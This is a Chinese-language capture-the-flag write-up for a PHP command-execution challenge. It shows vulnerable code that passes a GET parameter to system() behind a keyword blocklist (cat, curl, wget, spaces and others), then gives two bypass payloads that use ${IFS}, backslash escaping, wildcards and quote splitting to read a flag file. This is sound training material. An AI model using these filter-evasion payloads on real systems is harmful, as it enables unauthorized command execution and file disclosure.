



```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 18:21:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

空格

数字

*

more

wget

less

head

sort

tail

sed

cut

tac

awk

strings

od

curl

`

%

\x09

\x26

\>

\<


### 第一种

利用\绕过字母

利用${IFS}绕过空格

```
?c=ls
```



```
?c=ta\c${IFS}fl\ag.php
```




### 第二种

利用?匹配命令

利用''绕过字母

```
?c=/bin/ca?${IFS}fl''ag.php
```

